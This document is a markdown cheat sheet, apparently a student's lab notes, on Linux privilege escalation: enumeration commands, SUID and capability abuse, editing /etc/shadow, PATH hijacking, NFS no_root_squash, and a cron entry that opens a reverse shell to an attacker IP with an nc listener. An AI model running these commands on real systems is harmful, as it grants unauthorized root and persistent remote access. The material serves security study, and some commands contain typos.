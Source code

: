 
### Linux Privilege Escalation:

- `sudo -l`
- __`find / -name local.txt 2> /dev/null`__
- __`find -type d -name ".*" 2>/dev/null`__ __it will check hidden directories.__
- __`find / -not -type l -perm -o+w`__
- __`find /  -perm -u=s -type f 2>/dev/null`__
- [password cracking](password_cracking.md)
- [gtfobins](https://gtfobins.github.io/)


- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__


---------------------

### Upgrading Non-Interactive Shells

- __1. `cat /etc/shells` Check which shells are available in the target system__
- __2. Check for `python --version` to know python is installed or not__
  - __`python -c 'import pty; pty.spawn("/bin/bash")'`__
- __3. Check for `perl --help` installed or not__
  - __perl -e 'exec "bin/bash";'__
  - __perl: exec "/bin/bash";__
- __4. ruby: exec "bin/bash"__

- __Important__
  - __`env`__
  - __`export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`__
  - __`export TERM=xterm`__
  - __`export SHELL=bash`__

---------------------

### Find command which helps us in finding lot of stuff
```
Syntax: find <path> <options> <regex/name>
find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt : find the file names “flag1.txt” in the /home directory
find / -type d -name config : find the directory named config under “/”
find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x : find executable files
find /home -user frank : find all files for user “frank” under “/home”
find / -mtime 10 : find files that were modified in the last 10 days
find / -atime 10 : find files that were accessed in the last 10 day
find / -cmin -60 : find files changed within the last hour (60 minutes)
find / -amin -60 : find files accesses within the last hour (60 minutes)
find / -size 50M : find files with a 50 MB size
find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null : Find world-writeable folders
find / -perm -o w -type d 2>/dev/null : Find world-writeable folders
find / -perm -o x -type d 2>/dev/null : Find world-executable folders
We can also find programming languages and supported languages: find / -name perl*, find / -name python*, find / -name gcc* ...etc
find / -perm -u=s -type f 2>/dev/null : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
```
---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`


----------------
### Automated Enumeration Scripts:

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
find / -perm -u=s -type f 2>/dev/null` this will list all the suid files

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- Any one can view it!
- To view crontab, `cat /etc/crontab`
- `cat /etc/cron*`
  - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'" > backdoor`
  - `crontab -i backdoor`
  - `crontab -l`
- `nc -nlvp 1234`

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

 
